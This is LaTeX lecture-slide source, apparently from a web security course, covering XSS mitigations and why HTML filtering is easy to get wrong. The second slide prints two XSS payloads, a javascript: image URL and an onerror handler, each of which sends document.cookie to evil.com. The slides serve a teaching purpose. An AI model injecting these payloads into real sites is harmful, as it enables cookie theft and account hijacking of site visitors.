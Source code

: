 
\section{XSS mitigations}

\begin{frame}<1-2>[label=XSSmits]{XSS mitigations}
    \begin{itemize}
    \item host dangerous stuff on different domain
        \begin{itemize}
        \item has different cookies
        \end{itemize}
    \item Content-Security-Policy
        \begin{itemize}
        \item server says ``browser, don't run scripts here''
        \end{itemize}
    \item {}
        \begin{itemize}
        \item server says ``browser, don't share this with code on the page''
        \end{itemize}
    \item {} (same as normal command injection)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLFilterEscapeNits]{HTML filtering/escaping nits}
    \begin{itemize}
    \item it's easy to mess up HTML filtering or escaping
        \begin{itemize}
        \item (especially if trying to allow ``safe HTML'')
        \item browsers have features you don't know about
        \end{itemize}
    \item can `only' set image URL?
\begin{verbatim}
<img src="javascript:(new Image()).src=
                     'http://evil.com/' + document.cookie">
\end{verbatim}
    \item disallow the word `script'?
\begin{verbatim}
<img src=x onerror="(new Image()).src=
                   'http://evil.com/' + document.cookie">
\end{verbatim}

    \end{itemize}
\end{frame}

